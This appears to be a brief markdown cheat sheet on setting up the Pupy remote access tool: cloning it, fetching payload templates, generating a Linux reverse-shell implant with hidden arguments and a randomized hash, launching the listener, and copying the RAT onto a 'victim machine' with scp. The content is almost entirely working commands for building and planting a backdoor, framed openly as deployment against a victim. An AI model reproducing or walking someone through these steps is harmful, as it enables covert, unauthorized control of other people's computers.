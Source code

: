 # Pupy
## Installing
````
git clone https://github.com/n1nj4sec/pupy
git submodule init 
git submodule update
cd pupy 
pip install -r requirements.txt
````
- Download templates
````
wget https://github.com/n1nj4sec/pupy/releases/download/latest/payload_templates.txz
tar xvf payload_templates.txz && mv payload_templates/* pupy/payload_templates && rm payload_templates.txz && rm -r payload_templates
````
- Create a RAT for Deployment
````
cd /path/to/pupy 
./pupygen.py -l | less -R
````
- `pupygen` with no arguments defaults to x86 Windows reverse payload on port 443
- `-f` specifies the type of payload we are generating 
- `-O` arfument can set the target operating system
````
./pupygen.py -f py -O linux -A x64 -s hide_argv,name=myRemoteAccess --randomize-hash
````
- Pupy will automatically include ip and port with the best guess if they are omitted from the implant generation command
## Set up the Server
````
./pupysh.py 
````
## Deploy the RAT
- Can place on the victim machine various ways 
````
scp ~/location-of-pupy-file username@10.10.10.10:/tmp
````
